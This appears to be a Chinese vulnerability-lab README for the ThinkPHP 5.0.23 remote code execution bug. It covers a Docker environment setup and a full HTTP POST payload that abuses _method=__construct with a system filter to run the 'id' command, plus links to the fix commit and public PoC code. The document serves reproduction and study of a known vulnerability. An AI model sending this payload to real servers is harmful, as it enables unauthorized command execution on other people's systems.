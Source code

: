 # ThinkPHP5 5.0.23 远程代码执行漏洞

## 漏洞描述

ThinkPHP 是一款运用极广的 PHP 开发框架。其 5.0.23 以前的版本中，获取 method 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法并构造利用链，从而导致远程代码执行漏洞。

参考链接：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## 环境搭建

执行如下命令启动一个默认的 thinkphp 5.0.23 环境：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.php` 即可看到默认的 ThinkPHP 启动页面。

## 漏洞复现

发送数据包：

```
POST /index.php?s=captcha HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

成功执行 `id` 命令：

![image-20220302151553822](images/202203021515902.png)

## 开源 POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE

